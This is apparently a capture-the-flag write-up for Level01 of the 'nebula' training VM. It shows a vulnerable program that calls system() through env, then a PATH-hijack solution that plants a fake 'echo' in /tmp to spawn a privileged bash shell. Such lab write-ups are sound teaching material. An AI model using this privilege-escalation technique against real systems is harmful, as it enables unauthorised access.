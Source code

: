 * Level01
  :PROPERTIES:
  :CUSTOM_ID: level01
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  There is a vulnerability in the below program that allows arbitrary
  programs to be executed, can you find it?
#+end_quote

#+begin_quote
  To do this level, log in as the level01 account with the password
  level01. Files for this level can be found in /home/flag01.
#+end_quote

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
#+end_src

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
So the above code loads the users enviroment and then runs echo followed
by a string, by modifying the =PATH= variable it can be exploited.

#+begin_example
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH
level01@nebula:/home/flag01$ echo "/bin/bash"  >> /tmp/echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo
#+end_example

#+begin_example
level01@nebula:/home/flag01$ ./flag01

flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
#+end_example
